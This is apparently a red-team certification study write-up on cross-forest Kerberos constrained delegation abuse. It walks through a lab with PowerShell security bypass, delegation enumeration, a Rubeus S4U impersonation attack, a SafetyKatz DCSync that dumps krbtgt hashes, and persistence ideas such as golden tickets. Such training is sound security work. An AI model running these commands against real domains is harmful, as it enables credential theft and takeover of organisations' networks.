




CRTE - Certified Red Team Expert
Cross Forest Attacks - Constrained Delegation with Protocol Transition
When working with multi-forest Active Directory environments, constrained delegation with protocol transition does not function across forests by default. This is because Kerberos tickets issued in one forest are not inherently trusted by another forest unless a trust relationship is explicitly established. However, once a trust is in place, there are multiple ways we can abuse constrained delegation to escalate privileges and pivot laterally into a different forest.
Many organizations fail to properly monitor delegation settings, and security controls are often limited to the domain level rather than extending to cross-forest interactions. This creates an opportunity for us to exploit poorly secured delegation configurations in one forest and use them to compromise high-value assets in another.
Understanding Forest Trusts and Their Role in Delegation Abuse
In an Active Directory environment with multiple forests, trust relationships can be established to allow authentication between them. These trusts can be either:
- External Trusts: A one-way or two-way non-transitive trust between two domains in different forests.
- Forest Trusts: A one-way or two-way transitive trust that allows all domains in the trusting forest to access resources in the trusted forest.
For delegation to work across forests, there are two key conditions:
- The trust must be established with "Selective Authentication" disabled or explicitly configured to allow authentication.
- The Trusted-to forest must have an SPN that the delegating account in the Trusted-From forest can target.
This means that if we compromise an account with constrained delegation enabled in a trusted forest, we might be able to request service tickets for resources in the trusted domain, provided that the domain controllers allow it. The key to abusing this misconfiguration lies in manipulating Kerberos delegation and protocol transition.
How Constrained Delegation with Protocol Transition is Abused in Cross-Forest Scenarios
The standard constrained delegation attack relies on S4U2Self and S4U2Proxy requests. If we control a service account that has constrained delegation enabled, we can force it to obtain Kerberos tickets for other services on behalf of any user.
Now, when dealing with a multi-forest environment, the challenge is that a service ticket issued in one forest is not automatically trusted in another. However, when a forest trust exists, we can manipulate constrained delegation to request tickets for services in the trusted forest.
Attack Workflow: Exploiting Cross-Forest Constrained Delegation
If we gain control over a service account in the trusted forest, we can attempt to request Kerberos tickets for services in the trusting forest by leveraging constrained delegation. The steps typically involve:
- Compromising a Service Account in the Trusted Forest
- We identify an account with constrained delegation enabled.
- Using tools like BloodHound, we check the
msDS-AllowedToDelegateToattribute to see which services the account is allowed to delegate to. - If the account has access to critical services like CIFS, LDAP, or HTTP on a domain controller, we can proceed with our attack.
- Performing S4U2Self to Obtain a User Ticket
- Using Rubeus, we request a Kerberos ticket for a target user on the compromised service account.
- If protocol transition is enabled, we can request a ticket on behalf of any user without knowing their password or having their NTLM hash.
- Performing S4U2Proxy to Obtain a Cross-Forest Ticket
- Once we have an S4U2Self ticket, we attempt to request a service ticket for a target system in the trusting forest.
- If successful, we now have a Kerberos ticket that allows us to access services on the domain controller in the trusting forest.
- Performing DCSync Attack for Full Forest Compromise
- If we obtained a ticket for LDAP or CIFS on a domain controller in the trusting forest, we can now attempt a DCSync attack.
- Using Mimikatz, we extract all password hashes from the domain controller.
- At this point, we have full control over the trusting forest and can pivot further.
Why This Attack Works and Common Misconfigurations That Enable It
The ability to abuse constrained delegation with protocol transition in a cross-forest scenario relies on several common misconfigurations:
- Selective Authentication is Not Enforced
- If "Selective Authentication" is disabled in the forest trust, accounts in the trusted forest can authenticate to any resource in the trusting forest.
- Service Account Delegation is Not Properly Restricted
- The
msDS-AllowedToDelegateToattribute allows delegation to critical services, such as CIFS, LDAP, or HTTP on domain controllers. - No Monitoring for Kerberos Service Tickets
- Organizations rarely monitor S4U2Self and S4U2Proxy requests, making it easy for attackers to generate forged tickets without detection.
- Overprivileged Service Accounts
- If a service account has been granted unnecessary delegation rights, it becomes an easy target for attackers.
How We Can Maintain Persistence in a Cross-Forest Scenario
Once we gain access to a domain controller in the trusting forest, we need to ensure persistent access. There are several techniques we can use:
- Create a New Delegated Account
- If we have domain admin access, we can create a new account and configure it with constrained delegation.
- This allows us to re-establish access at any time.
- Golden Ticket Attack
- If we extract the KRBTGT hash from the trusting forest, we can forge Kerberos tickets indefinitely.
- Modify the msDS-AllowedToDelegateTo Attribute
Cross-forest constrained delegation attacks are a powerful way to move laterally in multi-forest environments. Since many organizations fail to properly secure delegation settings, we can often exploit these misconfigurations to escalate privileges across forest boundaries. By leveraging S4U2Self and S4U2Proxy requests, we can impersonate privileged users and request service tickets for high-value targets, such as domain controllers.
This attack becomes even more dangerous when combined with techniques like DCSync, Golden Ticket forging, and modifying delegation attributes. Once we establish a foothold in a trusted forest, we can expand our control to other forests, often without detection.
The key to success in these attacks lies in identifying weak delegation configurations, abusing Kerberos ticket manipulation, and ensuring persistence through misconfigured accounts. As red teamers, understanding how to exploit these weaknesses allows us to efficiently escalate privileges and demonstrate the risks of improper delegation settings in real-world environments.
- We can modify the
msDS-AllowedToDelegateToattribute to include additional high-value services.
Enumerating Constrained Delegation with ADModule
Let’s start our Constrained Delegation with ADModule by executing InvisiShell to bypass PowerShell security features like system-wide transcription, Script Block Logging, AMSI and Constrained Language Mode(CLM).
RunWithRegistryNonAdmin.bat

After bypassing Powershell Security Features we can now import ADModule.
Import-Module Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dllImport-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

Now that we have imported our ADModule, we can use GetADObject to Enumerate Constrained Delegation in our target domain.
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local

As we can see above after our Constrained Delegation enumeration, it’s possible to see that user storagesvc service account contains flag msDS-AllowedToDelegateTo for Service Time on EU-DC.eu.local
Enumerating Constrained Delegation with PowerView
Let’s start our Constrained Delegation with ADModule by executing InvisiShell to bypass PowerShell security features like system-wide transcription, Script Block Logging, AMSI and Constrained Language Mode(CLM).
RunWithRegistryNonAdmin.bat

After bypassing Powershell Security Features we can now import PowerView.
Import-Module .\PowerView.ps1Get-DomainUser -TrustedToAuth -Domain eu.local

As we can see above after our Constrained Delegation enumeration, it’s possible to see that user storagesvc service account contains flag msDS-AllowedToDelegateTo for Service Time on EU-DC.eu.local
Get-DomainComputer -TrustedToAuth -Domain eu.local

We did not find any computer account with Constrained Delegation enabled.
Assuming that we were able to compromise this storagesvc service account already and we do have credentials for this service account. We can use either clear-text password or its hash. For Opsec purpose, We will be using the NTLM hash. We can Rubeus for key all it’s hashes.
We must should remember that we will be using Loader.exe to run Rubeus in the memory, so we need to encode our argument (hash) before we pass it when using Rubeus.

Let’s now run Rubeus in memory using our .Net loader.
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:storagesvc /password:Qwerty@123 /domain:eu.localbash
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v2.2.1
[*] Action: Calculate Password Hash(es)
[*] Input password : Qwerty@123
[*] Input username : storagesvc
[*] Input domain : eu.local
[*] Salt : EU.LOCALstoragesvc
[*] rc4_hmac : 5C76877A9C454CDED58807C20C20AEAC
[*] aes128_cts_hmac_sha1 : 4A5DDDB19CD631AEE9971FB40A8195B8
[*] aes256_cts_hmac_sha1 : 4A0D89D845868AE3DCAB270FE23BEDD442A62C4CAD7034E4C60BEDA3C0F65E04
[*] des_cbc_md5 : 7F7C6ED00258DC57
`
Now that we do have the storagesvc NTLM hash, we will use Rubeus to perform an S4U attack (Service-for-User) by requesting any alternative service like LDAP for example impersonating the eu.local administrator.
ArgSplit.bat

Let’s now run Rubeus in memory using our .Net loader.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:LDAP /dc:eu-dc.eu.local /ptt
We can double check if we were able to inject the into into our session using klist command.
klist

Now we can use our SafetyKatz for the DCSync attack, but just before that, we should remember that we will be using Loader.exe to run SafetyKatz in the memory, so we need to encode our argument (lsadump::dcsync) before we pass it when using SafetyKatz.

Let’s now run SafetyKatz in memory using our .Net loader.
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:eu\krbtgt /domain:eu.local" "exit"bash
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/12/2019 10:00:04 PM
Object Security ID : S-1-5-21-3657428294-2017276338-1274645009-502
Object Relative ID : 502
Credentials:
Hash NTLM: 83ac1bab3e98ce6ed70c9d5841341538
ntlm- 0: 83ac1bab3e98ce6ed70c9d5841341538
lm - 0: bcb73c3d2b4005e405ff7399f3ca2bf0
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : a0c1c86edafc0218a106426f2309bafd
Primary:Kerberos-Newer-Keys
Default Salt : EU.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d
aes128_hmac (4096) : e2ef89cdbd94d396f63c9aa5b66e16c7
des_cbc_md5 (4096) : 92371fe32c9ba208
Primary:Kerberos
Default Salt : EU.LOCALkrbtgt
Credentials
des_cbc_md5 : 92371fe32c9ba208
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 bbd1d8cc9e5001a195c0aea8260dc460
02 a8a12e010ecbfa9772ffbf94a0c53bbf
03 5c4ea92171032c3655c6dab468555c1b
04 bbd1d8cc9e5001a195c0aea8260dc460
05 a8a12e010ecbfa9772ffbf94a0c53bbf
06 b0ebda7d1fa949eef7f3618fb745e92d
07 bbd1d8cc9e5001a195c0aea8260dc460
08 4f1dd1dc8c185043ea5f588bced2e536
09 4f1dd1dc8c185043ea5f588bced2e536
10 388e53f1b4fc51f5f2a046e9a03d15f8
11 7a7451acdbda7ca3ea2b9c29a5505805
12 4f1dd1dc8c185043ea5f588bced2e536
13 40fb8f21d6689dc78cfa977b8678fba0
14 7a7451acdbda7ca3ea2b9c29a5505805
15 8c35ff6c675fea1d7fa64405721aba20
16 8c35ff6c675fea1d7fa64405721aba20
17 63fb31e1ff838c848d1e0cbaed8c272e
18 4e60cf1107bbc98e8fbb76499de1dd96
19 035a4fe85f9cbe04af399507cd09d7eb
20 6c0a58bf772f0ce23496ac5dc68672f7
21 726b4122553e3a61b34c5e08ab04006e
22 726b4122553e3a61b34c5e08ab04006e
23 b65f6706fbb5f5e370b76c892cbf98dd
24 2e16efd1ddfe850f2b8f47ccdd5501ff
25 2e16efd1ddfe850f2b8f47ccdd5501ff
26 2afde765ea5c02b1a282f63d9a88ab45
27 756254f63a68f4f0cf34e82d11986474
28 50ab58d5ae45dc5792e1dc9d5f6945a5
29 1b252cf7a18c4e6fcceb388e0e2a0ef6
mimikatz(commandline) # exit
`
Here’s a table of services that can be forged for Kerberos tickets along with the native tools or protocols that rely on these services. This information is critical for targeting specific resources during post-exploitation:
| Service (SPN) | Purpose/Protocol | Native Tool/Access Method |
|---|---|---|
| HTTP | Web-based access, including WinRM/WinRS | winrs, PowerShell Remoting (WinRM) |
| HOST | General host-based services | WMI, SMB, Remote Service Management |
| CIFS | File sharing over SMB | net use, dir \\share\folder, File Explorer |
| RPCSS | Remote Procedure Call services | WMI, DCOM, RPC-based tools |
| MSSQLSvc | Microsoft SQL Server | SQL Management Studio, ODBC, SQLCMD |
| LDAP | Directory access over LDAP | ldapsearch, dsquery, AD enumeration tools |
| SMTPSVC | SMTP service for mail servers | Sending emails via Exchange or SMTP relay |
| IMAP | Email access over IMAP | Email clients (e.g., Thunderbird, Outlook) |
| POP3 | Email access over POP3 | Email clients |
| FTP | File transfer over FTP | ftp client, FileZilla, command-line FTP |
| RDP | Remote Desktop Protocol | MSTSC (Remote Desktop Connection) |
| WSMAN | Windows Remote Management (WinRM) | PowerShell Remoting, Invoke-Command |
| TERMSRV | Terminal Services | RDP sessions, RemoteApp |
| DNS | Domain Name System | DNS queries, nslookup, DNS-based enumeration |
| SHELL | Remote Shell Protocol | Telnet-like access |
| NFS | Network File System | Mounting NFS shares |
| SMTP | Mail relay using SMTP | Sending email via SMTP |
Explanation of Key Examples:
- WinRM/WinRS (Service: HTTP)
- If we need to use
winrsorInvoke-Command, we must forge a ticket for the HTTP service on the target machine. - WMI (Services: HOST, RPCSS)
- WMI uses HOST and RPCSS to manage remote processes and interact with the Windows Management Instrumentation service.
- SMB/Shared Drives (Service: CIFS)
- Accessing file shares or interacting with
net userequires a forged ticket for the CIFS service. - SQL Server (Service: MSSQLSvc)
- For accessing databases through SQLCMD or Management Studio, we need a ticket for the MSSQLSvc service.
- RDP (Service: TERMSRV)
- Forging a ticket for TERMSRV allows Remote Desktop Protocol (RDP) sessions to the target.
- LDAP (Service: LDAP)
- Any Active Directory enumeration over LDAP (e.g.,
ldapsearch) requires a ticket for LDAP.